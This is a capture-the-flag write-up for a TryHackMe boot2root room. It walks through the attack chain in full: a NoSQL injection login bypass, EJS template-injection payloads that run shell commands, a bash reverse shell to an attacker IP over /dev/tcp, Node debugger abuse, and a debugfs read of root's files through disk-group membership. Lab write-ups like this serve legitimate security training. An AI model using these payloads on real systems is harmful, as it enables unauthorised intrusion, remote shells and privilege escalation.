# 🏨 Hacker Holidays Day 7 – Do Not Disturb (CTF Write-up)

<p align="center">


</p>

---

## 📌 Challenge Overview

> Sign's on the door. Room's active. You have access you were never given, and so does he.

The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. It becomes clear that whoever is already inside has been moving for far longer than you have.

The Byte Lotus platform tracks every cabana, every session, and never forgets. Your objective is to follow the attack path, replicate the intrusion, and recover both flags.

🔗 **Room Link:** https://tryhackme.com/room/hh-donotdisturb-84a45644

---

## 📊 Challenge Information

| Attribute  | Details                                |
| ---------- | -------------------------------------- |
| Platform   | TryHackMe                              |
| Challenge  | Hacker Holidays Day 7 - Do Not Disturb |
| Difficulty | Medium                                 |
| Category   | Boot2Root                              |
| Target     | Web Application                        |

---

## 🎯 Objectives

* 🔎 Gain initial access
* 🧾 Retrieve **user flag**
* 👑 Escalate privileges and retrieve **root flag**

---

## 🧭 Attack Flow Overview

```mermaid
flowchart LR
A[Recon] --> B[Directory Enumeration]
B --> C[/staff Endpoint Identified]
C --> D[NoSQL Injection]
D --> E[Session Cookie Hijack]
E --> F[Access Staff Panel]
F --> G[SSTI Exploitation]
G --> H[Remote Code Execution]
H --> I[User Flag Retrieved]
I --> J[Reverse Shell]
J --> K[Service Enumeration]
K --> L[Node Debug Exploit]
L --> M[Disk Group Abuse]
M --> N[Root Flag Retrieved]
```

---

## 🔍 Enumeration & Initial Access

### 📁 Directory Enumeration

```bash
gobuster dir -u http://10.130.137.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Key Findings:**

```
/staff   (Status: 403)
/logout  (Status: 302)
```

➡️ `/staff` endpoint identified

---

### 🌐 Technology Fingerprinting

```
X-Powered-By: Express
```

➡️ Node.js + Express backend

---

### 💉 NoSQL Injection

```http
username=attendant&password[$ne]=x
```

➡️ Authentication bypass using MongoDB operator `$ne`

---

### 🍪 Session Hijacking Flow


📸 *Screenshot:*


📸 *Screenshot:*

---


## 💣 Exploitation (SSTI → RCE)

### 🧪 Payload Execution

```html
<pre><%= process.getBuiltinModule('child_process').execSync('id').toString() %></pre>
```

**Output:**

```
uid=996(poolside)
```

➡️ Confirmed RCE via **Server-Side Template Injection**

📸 *Screenshot:*


```html
<pre><%= process.getBuiltinModule('child_process').execSync('ls -la /home/poolside').toString() %></pre>

```
**Output:**

```
Output
total 28
drwxr-x--- 2 poolside poolside 4096 Jun 16 10:05 .
drwxr-xr-x 5 root     root     4096 Jun 16 09:28 ..
-rw-r--r-- 1 poolside poolside  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 poolside poolside 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 poolside poolside  807 Feb 25  2020 .profile
-rw------- 1 poolside poolside  866 Jun 16 09:56 .viminfo
-rw-r--r-- 1 poolside poolside   27 Jun 16 09:32 user.txt
```

📸 *Screenshot:*

---

### 💥 RCE Attack Flow

```mermaid
flowchart TD
A[User Input Template] --> B[Unsanitized Rendering]
B --> C[Injected JS Payload]
C --> D[Node.js Execution]
D --> E[child_process.execSync()]
E --> F[System Command Execution]
F --> G[Command Output Returned]
```

---

### 🧾 User Flag Retrieval

```html
<pre><%= process.getBuiltinModule('child_process').execSync('cat /home/poolside/user.txt').toString() %></pre>
```

✅ User flag obtained

📸 *Screenshot:*

---

## 🐚 Reverse Shell Access

### 📡 Payload

```html
<pre><%= process.getBuiltinModule('child_process').exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.130.112.214/4444 0>&1'").toString() %></pre>
```
📸 *Screenshot:*

---

### 🔁 Reverse Shell Flow



---

## 🔐 Privilege Escalation

### 🔍 Service Discovery

```
lotus-telemetry.service
```

Executes:

```
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

➡️ Debug mode exposed

---

### 🧠 Node Debug Exploitation

```bash
node inspect 127.0.0.1:9229
```

📸 *Screenshot:*


Access REPL and execute commands:

```javascript
process.getBuiltinModule('child_process').execSync('id').toString()
```

```
**Output:**

```
'uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)\n'
```
```

➡️ User belongs to **disk group**

📸 *Screenshot:*


---

### ⚙️ Privilege Escalation Flow



---

### 💾 Root Flag Extraction

```javascript
process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs', ['-R','cat /root/root.txt','/dev/nvme0n1p1'],{encoding:'utf8'})
```

✅ Root flag retrieved

---

## 🏁 Root Flag

🎉 Root access achieved

---

## 🧠 Key Takeaways

* 🔓 NoSQL Injection enables authentication bypass
* 🍪 Session hijacking bypasses access controls
* 💣 SSTI leads to full RCE
* 🐚 Reverse shell ensures stable access
* ⚙️ Debug-enabled services are critical risks
* 💾 Disk group membership = full system compromise

---

## 👨‍💻 Author

**Sudharsan Chandran**
Cybersecurity Engineer | Offensive Security | SIEM | Automation

### 🔍 Areas of Interest

* 🔐 Network Security
* 🕵️ Digital Forensics
* 🧪 Penetration Testing
* 🤖 AI Security
* ⚙️ Security Automation

---

⭐ If you found this write-up helpful, consider giving it a star!
